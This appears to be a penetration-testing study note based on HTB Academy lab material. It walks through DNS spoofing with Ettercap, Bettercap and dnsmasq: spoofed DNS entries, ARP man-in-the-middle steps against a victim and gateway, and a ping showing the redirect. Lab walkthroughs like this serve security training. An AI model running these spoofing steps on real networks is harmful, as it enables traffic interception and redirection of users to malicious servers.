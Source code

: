 
## 🕷️ DNS Spoofing & Cache Poisoning

### Understanding DNS Cache Poisoning
```
Goal: Alter legitimate DNS records with false information
Methods: 
  1. MITM attacks intercepting DNS traffic
  2. DNS server vulnerabilities exploitation
  3. Local network cache poisoning
Result: Traffic redirection to malicious servers
```

### HTB Academy Ettercap DNS Spoofing

#### Step 1: Configure DNS Spoofing
```bash
# Edit Ettercap DNS configuration
cat /etc/ettercap/etter.dns

# Add spoofing entries
inlanefreight.com      A   192.168.225.110
*.inlanefreight.com    A   192.168.225.110
```

#### Step 2: Execute MITM Attack
```bash
# Launch Ettercap GUI
ettercap -G

# Steps in Ettercap:
# 1. Hosts > Scan for Hosts
# 2. Add target IP (192.168.152.129) to Target1
# 3. Add gateway IP (192.168.152.2) to Target2
# 4. Plugins > Manage Plugins > dns_spoof
```

#### Step 3: Verify DNS Spoofing
```cmd
# From victim machine (192.168.152.129)
C:\>ping inlanefreight.com

Pinging inlanefreight.com [192.168.225.110] with 32 bytes of data:
Reply from 192.168.225.110: bytes=32 time<1ms TTL=64
Reply from 192.168.225.110: bytes=32 time<1ms TTL=64

# Browser test shows fake page hosted on 192.168.225.110
```

### Alternative DNS Spoofing Tools
```bash
# Using Bettercap
bettercap -iface eth0

# Bettercap commands
> set dns.spoof.domains inlanefreight.com
> set dns.spoof.address 192.168.225.110
> dns.spoof on
> arp.spoof on

# Using dnsmasq for local spoofing
echo "192.168.225.110 inlanefreight.com" >> /etc/dnsmasq_spoof.conf
dnsmasq --conf-file=/etc/dnsmasq_spoof.conf
```
